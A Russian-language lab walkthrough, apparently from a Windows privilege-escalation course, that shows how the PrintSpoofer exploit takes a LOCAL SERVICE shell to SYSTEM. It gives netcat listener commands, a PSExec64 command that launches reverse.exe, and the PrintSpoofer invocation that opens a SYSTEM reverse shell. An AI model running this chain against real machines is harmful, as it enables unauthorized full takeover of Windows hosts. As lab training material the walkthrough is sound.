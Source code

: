 # 🐾 17. Токен Имперсонирования - PrintSpoofer
---
## 📜 Описание задания
В этом задании мы будем использовать эксплойт PrintSpoofer для получения привилегий `SYSTEM` с помощью имперсонирования токенов. Мы начнем с того, что получим оболочку сервисной учетной записи с правами `LOCAL SERVICE`, а затем используем PrintSpoofer для повышения привилегий до `SYSTEM`.

---
## 🔍 Шаг 1: Запуск слушателя на Kali
Для начала нужно настроить слушатель на Kali, чтобы он ждал соединения от целевой машины. Выполните следующую команду на Kali:

`sudo nc -lvnp 53`

---
## 🔑 Шаг 2: Получение оболочки учетной записи с правами `LOCAL SERVICE`
Залогиньтесь в систему через RDP как администратор. Запустите командную строку с правами администратора (клик правой кнопкой мыши -> "Запуск от имени администратора"). Далее используйте `PSExec64.exe` для запуска `reverse.exe` с правами учетной записи `LOCAL SERVICE`:

`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`

После этого на Kali должен появиться первый обратный шелл с правами `LOCAL SERVICE`.

---
## 📝 Шаг 3: Запуск второго слушателя на Kali
Теперь нужно запустить второй слушатель на Kali, чтобы слушать второй обратный шелл с правами `SYSTEM`:

`sudo nc -lvnp port`

---
## 🎯 Шаг 4: Запуск эксплойта PrintSpoofer
В оболочке, которая работает с правами `LOCAL SERVICE`, запустите эксплойт PrintSpoofer для повышения привилегий до `SYSTEM`. Замените IP-адрес на ваш Kali IP:

`C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`

Этот шаг должен создать второй обратный шелл с правами `SYSTEM`, который подключится к слушателю на Kali.
![image](https://github.com/user-attachments/assets/e03e7f89-b68d-4b74-bbbd-f2ea31b06bb6)

---
## 🎉 Поздравления!
Вы успешно использовали эксплойт PrintSpoofer для повышения привилегий и получения обратного шелла с правами `SYSTEM`! 🎊
